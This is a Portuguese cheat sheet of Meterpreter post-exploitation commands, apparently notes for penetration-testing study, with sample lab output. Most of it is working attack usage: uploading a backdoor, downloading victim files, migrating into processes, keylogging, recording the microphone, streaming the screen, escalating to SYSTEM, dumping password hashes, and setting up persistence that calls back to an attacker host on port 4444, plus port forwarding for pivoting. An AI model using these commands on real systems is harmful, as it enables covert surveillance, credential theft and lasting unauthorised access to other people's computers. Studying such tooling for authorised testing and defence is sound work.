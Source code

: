 # Principais Comandos do Meterpreter
Uma das ferramentas mais usadas em **pós-exploração**. Ele fornece um **shell interativo** com vários módulos para controle da máquina comprometida.

## 🔹 1. **Informações do Sistema**

Usados para coletar dados básicos da máquina alvo.

* `sysinfo` → mostra informações do sistema.

  ```
  meterpreter > sysinfo
  Computer        : VICTIM-PC
  OS              : Windows 10 (Build 19041).
  Architecture    : x64
  ```
* `getuid` → exibe o usuário atual.

  ```
  meterpreter > getuid
  Server username: VICTIM-PC\user
  ```
* `ipconfig` → mostra interfaces e IPs.

  ```
  meterpreter > ipconfig
  Interface 1: Ethernet0
  IP Address : 192.168.56.102
  ```

## 🔹 2. **Navegação no Sistema de Arquivos**

Manipulação de arquivos e diretórios.

* `pwd` → mostra diretório atual.

  ```
  meterpreter > pwd
  C:\Users\user\Desktop
  ```
* `ls` ou `dir`→ lista arquivos do diretório.

  ```
  meterpreter > ls
  100644  1234  file.txt
  ```
* `cd <dir>` → muda de diretório.

  ```
  meterpreter > cd C:\\Windows
  ```
* `download <arquivo>` → baixa arquivo da vítima.

  ```
  meterpreter > download secret.docx
  ```
* `upload <arquivo>` → envia arquivo para a vítima.

  ```
  meterpreter > upload backdoor.exe
  ```

## 🔹 3. **Gerenciamento de Processos**

Controle e manipulação de processos.

* `ps` → lista processos ativos.

  ```
  meterpreter > ps
  PID   Name
  456   explorer.exe
  789   notepad.exe
  ```
* `migrate <PID>` → migra a sessão para outro processo.

  ```
  meterpreter > migrate 456
  ```
* `kill <PID>` → encerra processo.

  ```
  meterpreter > kill 789
  ```

## 🔹 4. **Captura de Dados**

Ferramentas de espionagem pós-exploração.

* `screenshot` → tira captura de tela.

  ```
  meterpreter > screenshot
  Screenshot saved to /root/screens/xxxx.png
  ```
* `record_mic` → grava áudio do microfone.

  ```
  meterpreter > record_mic 10
  ```
* `keyscan_start` → inicia keylogger.

  ```
  meterpreter > keyscan_start
  ```
* `keyscan_dump` → mostra teclas capturadas.

  ```
  meterpreter > keyscan_dump
  keystrokes: password123
  ```
* `keyscan_stop` → encerra keylogger.

  ```
  meterpreter > keyscan_stop
  ```

* `screenshare` → transmite em tempo real a tela da máquina vítima
  ```
  meterpreter > screenshare
  Starting...
  [*] Launching a browser to view the screen...
  [*] Preparing to stream video from the target...
  ```
  **_Observação:_** *pode gerar tráfego de rede alto (detectável em monitoramento).*

## 🔹 5. **Privilégios e Persistência**

Para aumentar ou manter acesso.

* `getprivs` → mostra privilégios disponíveis.
* `getsystem` → tenta escalar privilégios para SYSTEM.

  ```
  meterpreter > getsystem
  Got system via technique 1 (Named Pipe Impersonation)
  ```
* `hashdump` → extrai hashes das senhas do Windows.

  ```
  meterpreter > hashdump
  Administrator:500:...
  ```
* `run persistence` → cria persistência no alvo.

  ```
  meterpreter > run persistence -X -i 30 -p 4444 -r 192.168.56.101
  ```

## 🔹 6. **Rede**

Exploração e pivoting.

* `arp` → mostra cache ARP da vítima.
* `route` → lista rotas.
* `portfwd add` → cria redirecionamento de porta.

  ```
  meterpreter > portfwd add -l 8080 -p 80 -r 192.168.56.103
  ```
* `ipconfig` → mostra interfaces de rede.

* `netstat` → em algumas versões do Meterpreter já existe um comando integrado que lista conexões.
  ```
  meterpreter > netstat
  Proto  Local Address   Foreign Address   State
  TCP    192.168.56.102:4444   192.168.56.101:12345   ESTABLISHED
  ```

## 🔹 7. **Shell e Execução de Comandos**

Para interagir diretamente com o sistema.

* `shell` → abre um shell do SO (cmd ou bash).

  ```
  meterpreter > shell
  C:\Windows\system32> whoami
  ```
* `execute -f <programa>` → executa um programa no alvo.

  ```
  meterpreter > execute -f calc.exe
  ```

## 🔹 8. **Gerenciamento de Sessão**

Controle da própria sessão do Meterpreter.

* `sessions` → lista sessões abertas.

  ```
  meterpreter > sessions
  1   Meterpreter  192.168.56.102 -> 192.168.56.101
  ```
* `background` → coloca sessão em segundo plano.
* `exit` → fecha a sessão.
